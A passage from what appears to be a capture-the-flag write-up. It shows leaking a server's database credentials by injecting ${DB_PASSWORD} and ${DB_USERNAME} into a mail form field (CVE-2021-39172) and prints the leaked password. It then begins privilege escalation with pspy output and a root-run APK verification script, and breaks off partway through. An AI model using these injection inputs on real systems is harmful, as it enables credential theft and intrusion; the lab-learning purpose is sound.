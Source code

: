 ```console
```
Since we can access the environment of the system I will simply steal the DB credentials. It was a little unreliable, but submitting `${DB_PASSWORD}` and `${DB_USERNAME}` in the mail from adress field in the form leaked the variables, and we now have the credentials `will:s2#4Fg0_%3!`

![Leaking environment variables via CVE-2021-39172](envleak.png)

## Privilege escalation

Once we ssh into Will's account on the box, it is usually a good idea to make some noise and make a lot of scans (obviuosly a terrible idea in real life). Linpeas doesn't show up with anything interesting, but pspy does:
```console
---SNIP---
2022/06/16 16:49:01 CMD: UID=0    PID=511329 | /bin/bash /opt/mdm/verify.sh 
2022/06/16 16:49:01 CMD: UID=0    PID=511332 | openssl rand -hex 12 
2022/06/16 16:49:01 CMD: UID=0    PID=511333 | mv /opt/mdm/apk_bin/*.apk /root/mdm/apk_bin/716caef605aa7ce857722e6c.apk 
2022/06/16 16:49:01 CMD: UID=0    PID=511334 | jarsigner -verify /root/mdm/apk_bin/716caef605aa7ce857722e6c.apk 
---SNIP---
```
We can see that root runs a script /opt/mdm/verify.sh pretty often. Let's take a look.

The contents of the script
```bash
#!/bin/bash

###################
# Signature Check #
###################

sig_check() {
        jarsigner -verify "$1/$2" 2>/dev/null >/dev/null
        if [[ $? -eq 0 ]]; then
                echo '[+] Signature Check Passed'
        else
                echo '[!] Signature Check Failed. Invalid Certificate.'
                cleanup
                exit
        fi
}

#######################
# Compatibility Check #
#######################

comp_check() {
        apktool d -s "$1/$2" -o $3 2>/dev/null >/dev/null
        COMPILE_SDK_VER=$(grep -oPm1 "(?<=compileSdkVersion=\")[^\"]+" "$PROCESS_BIN/AndroidManifest.xml")
        if [ -z "$COMPILE_SDK_VER" ]; then
                echo '[!] Failed to find target SDK version.'
                cleanup
                exit
        else
                if [ $COMPILE_SDK_VER -lt 18 ]; then
                        echo "[!] APK Doesn't meet the requirements"
                        cleanup
                        exit
                fi
        fi
}

```